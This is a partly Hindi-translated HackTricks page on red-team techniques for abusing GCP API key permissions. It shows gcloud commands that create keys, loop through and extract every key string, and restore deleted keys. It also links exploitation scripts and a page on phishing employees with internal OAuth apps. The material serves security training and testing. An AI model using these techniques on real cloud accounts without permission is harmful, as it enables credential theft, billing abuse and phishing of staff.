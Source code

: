 # GCP - Apikeys Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apikeys

निम्नलिखित अनुमतियाँ API कुंजी बनाने और चुराने के लिए उपयोगी हैं, दस्तावेज़ से यह न देखें: _एक API कुंजी एक सरल एन्क्रिप्टेड स्ट्रिंग है जो **किसी भी प्रिंसिपल के बिना एक एप्लिकेशन की पहचान करती है**। ये **सार्वजनिक डेटा को गुमनाम रूप से** एक्सेस करने के लिए उपयोगी हैं, और **कोटा** और **बिलिंग** के लिए आपके प्रोजेक्ट के साथ API अनुरोधों को **संयुक्त** करने के लिए उपयोग की जाती हैं।_

इसलिए, एक API कुंजी के साथ आप उस कंपनी को आपके API के उपयोग के लिए भुगतान करवा सकते हैं, लेकिन आप विशेषाधिकारों को बढ़ाने में सक्षम नहीं होंगे।

API कुंजी के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

API कुंजी बनाने के अन्य तरीकों के लिए देखें:

{% content-ref url="gcp-serviceusage-privesc.md" %}
[gcp-serviceusage-privesc.md](gcp-serviceusage-privesc.md)
{% endcontent-ref %}

### Brute Force API Key access <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

जैसा कि आप नहीं जानते होंगे कि प्रोजेक्ट में कौन सी APIs सक्षम हैं या आपने जो API कुंजी पाई है उस पर लागू प्रतिबंध, यह दिलचस्प होगा कि आप उपकरण [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) चलाएँ और **जांचें कि आप API कुंजी के साथ क्या एक्सेस कर सकते हैं।**

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

यह अनुमति **एक API कुंजी बनाने** की अनुमति देती है:
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/b-apikeys.keys.create.sh).

{% hint style="danger" %}
ध्यान दें कि डिफ़ॉल्ट रूप से उपयोगकर्ताओं को नए प्रोजेक्ट बनाने की अनुमति होती है और उन्हें नए प्रोजेक्ट पर मालिक की भूमिका दी जाती है। इसलिए एक उपयोगकर्ता **एक प्रोजेक्ट बना सकता है और इस प्रोजेक्ट के अंदर एक API कुंजी बना सकता है**।
{% endhint %}

### `apikeys.keys.getKeyString` , `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

These permissions allows **list and get all the apiKeys and get the Key**:
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
आप एक स्क्रिप्ट यहाँ पा सकते हैं जो [**एक vuln वातावरण के निर्माण, शोषण और सफाई को स्वचालित करती है**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh).

### `apikeys.keys.undelete` , `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

ये अनुमतियाँ आपको **हटाए गए api keys की सूची बनाने और पुनः उत्पन्न करने** की अनुमति देती हैं। **API key आउटपुट में दी जाती है** जब **undelete** किया जाता है:
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### अन्य कर्मचारियों को फ़िश करने के लिए आंतरिक OAuth एप्लिकेशन बनाएं

यह करने के लिए निम्नलिखित पृष्ठ को देखें, हालांकि यह क्रिया सेवा **`clientauthconfig`** से संबंधित है [दस्तावेज़ों के अनुसार](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin):

{% content-ref url="../../workspace-security/gws-google-platforms-phishing/" %}
[gws-google-platforms-phishing](../../workspace-security/gws-google-platforms-phishing/)
{% endcontent-ref %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फ़ॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
